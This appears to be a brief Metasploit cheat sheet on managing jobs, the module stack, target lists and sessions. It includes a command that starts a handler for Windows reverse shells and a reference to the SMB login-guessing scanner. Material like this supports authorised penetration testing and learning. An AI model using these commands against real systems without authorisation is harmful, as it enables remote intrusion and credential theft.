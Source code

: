 
# Metasploit - Cheat Sheet

## Core

### Jobs
```ruby
#List Jobs
jobs -l
#Kill all Jobs
jobs -K
#Kill single Job by ID
jobs -k 1
```

### Module

```ruby
#navigate through different active modules
use exploit/multi/handler
#push module on stack
pushm
use post/multi/recon/local_exploit_suggester
set session 1
use scanner/smb/smb_login
#list stack
listm
[*] Module stack:

[1]     post/multi/recon/local_exploit_suggester
[0]     exploit/multi/handler
#go to previous module and delete it from the stack
popm
```

### use a file with IP addresses for RHOSTS

```ruby
set RHOSTS file:/home/user/iplist.txt
```

### Run (Backgroundjob)

```ruby
use exploit/multi/handler
run -p windows/shell/reverse_tcp lhost=0.0.0.0 lport=443 -j
```

### Sessions
```ruby
#List Sessions
sessions
#Select Session
sessions -i 1
```
